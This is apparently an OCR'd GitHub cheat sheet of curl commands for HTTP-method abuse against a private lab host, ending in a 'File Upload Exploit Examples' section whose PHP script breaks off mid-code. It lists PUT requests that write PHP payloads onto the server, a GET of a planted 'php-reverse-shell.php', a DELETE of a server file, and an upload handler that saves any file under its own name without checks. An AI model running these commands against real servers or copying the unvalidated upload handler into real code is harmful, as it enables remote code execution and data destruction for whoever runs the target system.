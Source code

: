 ### 📨 POST Method
```bash
• curl --request POST --url http://192.168.31.219/test/phpinfo.php --header 'content-type: application/x-www-form-urlencoded' --data '<?php phpinfo(); ?>'
```
Sends form data using POST to the target script.

### ❌ DELETE Method
```bash
• curl -X DELETE http://192.168.31.219/test/demo.txt
```
Sends a DELETE request to remove the file `demo.txt` from the server.

### 👀 GET Method
```bash
• curl -X GET http://192.168.31.219/test/php-reverse-shell.php
• curl --request GET --url 'http://192.168.31.219/test/demo.txt'
```
Retrieves files from the server using GET.

### 🔢 PUT Method With Inline Data
```bash
• curl -X PUT -d "hi" http://192.168.31.219/test/demo.txt
• curl -X PUT -d "<?php phpinfo(); ?>" http://192.168.31.219/test/phpinfo.php
```
Sends text or PHP payloads directly into files via PUT requests.

---

## 🔧 **File Upload Exploit Examples**

### 📁 File Upload Script (`fileupload.php`)
```bash
• vim fileupload.php
```
```php
<!doctypehtml>
<html>
<head><title>Form - Fileupload</title></head>
<body>
<form action="fileupload.php" enctype="multipart/form-data" method="post">
Select File to Upload:<br>
<input name="filetoupload" type="file"><br>
<input name="submit" type="submit" value="Upload"><br>
</form>
<?php
if(isset($_POST['submit'])){
    $file_name = $_FILES["filetoupload"]["name"];
    $file_type = $_FILES["filetoupload"]["type"];
    $file_tmp_name = $_FILES["filetoupload"]["tmp_name"];
    $file_error = $_FILES["filetoupload"]["error"];
    $file_size = $_FILES["filetoupload"]["size"];
    echo "File Name = {$file_name} <br />";
    echo "File Type = {$file_type} <br />";
    echo "File Temp Name = {$file_tmp_name} <br />";
    echo "File Error = {$file_error} <br />";
    echo "File Size = {$file_size} <br />";
    if(move_uploaded_file($file_tmp_name,$file_name)){
        echo "File Uploaded Successfully";
    } else {
        echo "Could not Upload file";
    }
} else {
    echo "Form was not submitted <br />";
```